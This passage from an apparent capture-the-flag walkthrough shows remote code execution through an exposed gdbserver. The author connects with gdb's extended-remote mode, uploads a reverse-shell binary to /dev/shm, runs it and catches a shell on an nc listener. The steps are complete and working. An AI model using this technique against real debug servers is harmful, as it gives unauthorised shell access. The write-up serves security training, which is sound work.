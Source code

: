 ```

(gdb) target extended-remote 10.10.11.125:1337
Remote debugging using 10.10.11.125:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2

```

With that connection, I can upload the binary:

```

(gdb) remote put rev.elf /dev/shm/rev
Successfully sent file "rev.elf".

```

Now I just need to set the remote debugging target to that file, and run it:

```

(gdb) set remote exec-file /dev/shm/rev
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /dev/shm/rev from remote target...
Reading /dev/shm/rev from remote target...
Reading symbols from target:/dev/shm/rev...
(No debugging symbols found in target:/dev/shm/rev)
[Detaching after fork from child process 33603]
[Inferior 1 (process 33592) exited normally]

```

When that finishes, there’s a connection at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.125 46586
id
uid=1000(user) gid=1000(user) groups=1000(user)

```
